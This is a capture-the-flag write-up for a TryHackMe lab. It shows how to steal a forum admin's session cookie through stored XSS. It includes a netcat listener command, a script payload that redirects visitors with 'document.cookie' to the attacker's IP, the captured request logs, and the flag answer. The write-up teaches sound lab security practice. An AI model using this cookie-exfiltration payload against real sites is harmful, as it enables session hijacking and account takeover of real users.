 # [Day 18] ELF JS

## Instructions

McSkidy knows the crisis isn't over. The best thing to do at this point is OSINT

*we need to learn more about the christmas monster*

During their OSINT, they came across a Hacker Forum. Their research has shown them that this forum belongs to the Christmas Monster. Can they gain access to the admin section of the forum? They haven't made an account yet so make sure to register.

Access the machine at `http://[your-ip-address]:3000` - it may take a few minutes to deploy.

Check out the supporting material [here](https://docs.google.com/document/d/19TJ6ANmM-neOln0cDh7TPMbV9rsLkSDKS3nj0eJaxeg/edit#).

P.S. If you want to learn more about XSS, we have a [room](https://tryhackme.com/room/xss) where you can learn about it in depth.

## #1 - What is the admin's authid cookie value?

### Create an account

First thing first, let's create an account. Connect to http://10.10.4.243:3000 and click on the `Register` link. Create a fake account (`test@test.com`) and then log in using this account.

### Forum

We are guided in the supporting material about what we have to look for. It's about XSS. In our case, it will be a stored XSS. The objective is to store a XSS on the forum, and wait for the admin to log in, to steal his credentials. But there are no real users, right? This is correct, it's a virtual machine. However, we can read this on the formum:

~~~
john:don't write anything sneaky - admin will be coming here from time to time.
~~~

It doesn't give indications on the frequency of the visits from the admin, but as this is a game, we can imagine that it shouldn't be too long.

### Stored XSS

#### Proof of Concept

In javascript, we can get the cookies with `document.cookie`.

The objective is to post a javascript that will redirect the user to our own machine's web server to get the value of the cookie. If you don't have a web server, you can open a socket with netcat, that will listen on port 80/tcp. It won't render any content, but we don't really care, all we want is to steal the cookie.

~~~
$ sudo nc -lnvp 80
~~~

Now that we have our listener, let's post the following content on the forum (replace `**` to match your local tun0 ip):

```javascript
<script>window.location='http://10.9.**.**/?cookie='+document.cookie</script>
```

Immediately, the page reloads and the listener shows the `authid` cookie:

~~~
$ sudo nc -lnvp 80
listening on [any] 80 ...
connect to [10.9.**.**] from (UNKNOWN) [10.9.**.**] 49674
GET /?cookie=authid=9dd22399fb1f4fdacb008d861576680c4d34607b HTTP/1.1
Host: 10.9.**.**
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.70.169:3000/
DNT: 1
Connection: keep-alive
Upgrade-Insecure-Requests: 1
~~~

#### Now for real

The problem now is that we screwed up the forum. Not a real issue, let's begin from start and terminate the machine, deploy a new one. This time though, we will first post the comment, and then we'll open the listener.

After a while, we get the admin's `authid` cookie:

~~~
$ sudo nc -lnvp 80
Listening on [0.0.0.0] (family 0, port 80)
Connection from 10.10.138.108 45766 received!
GET /?cookie=authid=2564799a4e6689972f6d9e1c7b406f87065cbf65 HTTP/1.1
Host: 10.9.**.**
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/77.0.3844.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Referer: http://localhost:3000/admin
Accept-Encoding: gzip, deflate
~~~

Answer: `2564799a4e6689972f6d9e1c7b406f87065cbf65`
